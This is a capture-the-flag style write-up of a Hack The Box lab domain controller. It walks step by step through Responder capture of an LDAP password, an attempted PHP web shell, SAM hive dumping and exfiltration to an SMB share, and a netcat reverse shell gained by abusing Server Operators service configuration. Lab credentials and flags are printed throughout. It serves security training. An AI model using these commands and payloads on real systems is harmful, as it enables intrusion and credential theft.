## Testing

Start: 2026-10-14, 16:00

IP:
```
10.129.95.241
```
---

ports

```
nmap -p- -Pn -n --min-rate 5000 10.129.95.241 -oA network/nmap_ports
```



DNS, HTTP, Kerberos, RPC, SMB, LDAP, WinRM, ... -> Active Directory, Domain Controller

service

```
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49673,49674,49675,49678,49684,49693,49697 -Pn -n -sCV --min-rate 5000 10.129.95.241 -oA network/nmap_service
```



Web server: IIS 10.0

Web title: HTB Printer Admin Panel

Domain: `return.local`

Hostname: `PRINTER`



SMB message signing required

Offsync with DC: 18m33s behind

Add IP - FQDN, Domain, Hostname to `/etc/hosts`


HTTP 80 - IIS

Browsing: http://return.htb/



Printer Admin Panel. `index.php`

Clcik Settings


Server address: `printer.return.local` (targert system, DC), port: 389 (LDAP)

Username: `svc-printer`

Apparently 7 characters password

Could change `svc-printer` password or server:port?

PHP site



PHP 7.4.13

Fuzzing

```
ffuf -u http://return.local/FUZZ -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```



images



Fuzzing using `.php` extension

```
ffuf -u http://return.local/FUZZ.php -w /opt/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```

Already known `index`, `settings`


Unauthenticated queries

SMB unauthenticated

```
nxc smb printer -u '' -p ''
```



OS: Windows 10 / Server 2019 Build 17763 x64

```
nxc smb printer -u '' -p '' --shares
```

`STATUS_ACCESS_DENIED`

Checking `svc-printer` PreAuth

```
impacket-GetNPUsers return.local/svc-printer -no-pass
```

`User svc-printer doesn't have UF_DONT_REQUIRE_PREAUTH set`


Updating the fields notice changing the server address takes a bit more to load. Setting reponder server, LDAP active by default, edit the server address to local IP where responder is running, click update and recieve plaintext password for svc-printer.

Setup reponder

```
sudo responder -I tun0
```

Update server address field with attacker IP


In reponder tab


User: `svc-printer`
Password: `1edFg43012!!`

Validating

```
nxc smb printer -u 'svc-printer' -p '1edFg43012!!'
```



Shares

```
nxc smb printer -u 'svc-printer' -p '1edFg43012!!' --shares
```



Can READ and WRITE `C$` system disk. 

Connecting

```
smbclient -U svc-printer //printer/C$
```

Inside shell

```
cd Users\svc-printer\Desktop\
```

```
get user.txt
```

Read on local system
user.txt: `4b863f06d283de79c3b610ce0f10cac9`

```
cd inetpub\wwwroot\
```

This is the webroot. Since I have write access and the web runs PHP backend I can upload a malicious PHP file and try to achieve RCE trough HTTP as the account running the web server.

Create shell.php

```
<?php
system($_REQUEST['cmd']);
?>
```

Connect again

```
smbclient -U svc-printer //printer/C$
```

```
put shell.php
```

`NT_STATUS_ACCESS_DENIED opening remote file \inetpub\wwwroot\shell.php`


Bloodhoud enumeration

Using rusthound collector

```
./rusthound-ce -d return.local -f PRINTER -u 'svc-printer' -p '1edFg43012!!' -z
```


Stop: 2026-10-14, 17:30
Start: 2026-10-14, 17:50

Start Bloodhound CE locally deployed web

```
curl -L https://ghst.ly/getbhce -o docker-compose.yml
sudo docker-compose up
```

Browse: http://localhost:8080

Username: admin

Password: (Look terminal)

Upload ZIP

Explore > Search > "SVC-PRINTER@RETURN.LOCAL"

Right click > Add to Owned

Administration > BH configuration > Analyze now

Explore > Cypher > "Shortest path from owned objects"


Member of `Print Operators`, `Server Operators` and `Remote Management users`

Connecting via WinRM

```
evil-winrm -i printer -u 'svc-printer' -p '1edFg43012!!'
```

```
whoami ; ipconfig
```



Connected as svc-printer to the targer system printer with IP: 10.129.95.241

```
whoami /priv
```



Various privileges, SeBackupPrivilege standing out the most for me

Downloading SAM and SYSTEM (make temp dir)

```
reg save hklm\sam .\sam.save
```

```
reg save hklm\system .\system.save
```

SMB server

```
impacket-smbserver -smb2support "share" ./
```

On target

```
cp .\*.save \\10.10.15.242\share\
```

Read

```
impacket-secretsdump -sam sam.save -system system.save LOCAL
```



NTLM

```
aad3b435b51404eeaad3b435b51404ee:34386a771aaca697f447754e4863d38a
```

Validating NT

```
nxc smb printer -u 'administrator' -H '34386a771aaca697f447754e4863d38a'
```



Not valid

Cant achieve to backup `ntds.dit`

From previous BloodHound mapping know `svc-printer` is member of Print Operators and Server Operators.

Print Operators privilege abuses: https://servtep.github.io/MCADDF/04_PrivEsc/PE-VALID-007_Print_Operators.html

Server Operators privilege abuses: https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/

Following Server Operators privilege abuses it seems an attacker with this privilege can edit services configuration, injecting system commands and running them by stopping and rerunning the edited service.

LIsting services

```
services
```


It looks like VMTools is an interesting and exploitable service

Upload nc.exe

```
upload nc.exe
```


Configure VMTools

```
sc.exe config VMTools binPath="C:\temp\nc.exe -e cmd.exe 10.10.15.242 9001"
```


Set listener

```
rlwrap nc -nlvp 9001
```

Stop the service

```
sc.exe stop VMTools
```


Start it, running new configuration with injected code

```
sc.exe start VMTools
```


Connected as `NT AUTHORITY\SYSTEM` to target system DC `PRINTER` with IP: 10.129.95.241

```
cd C:\Users\Administrator\Desktop
```
```
type root.txt
```

root.txt: `5ec424faec9314d072b7d093270f8ab7`

End: 2026-10-14, 18:40

---
### Post-testing
#### Time frame
Start: 2026-10-14, 16:00

Stop: 2026-10-14, 17:30

Start: 2026-10-14, 17:50

End: 2026-10-14, 18:40

Total time testing: 2h20min
#### Techniques
- LDAP Authentication triggered by attacker controlled destination address in printer setting functionality (web) - Reponder capture. Plaintext password
- Member of Server Operators Group abuse - Edit VMTools service configuration `binPath` - Arbitrary system command execution as `NT AUTHORITY\SYSTEM`
#### Sources
- Server Operators privilege abuses: https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/
- Server Operators rights: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory#server-operators
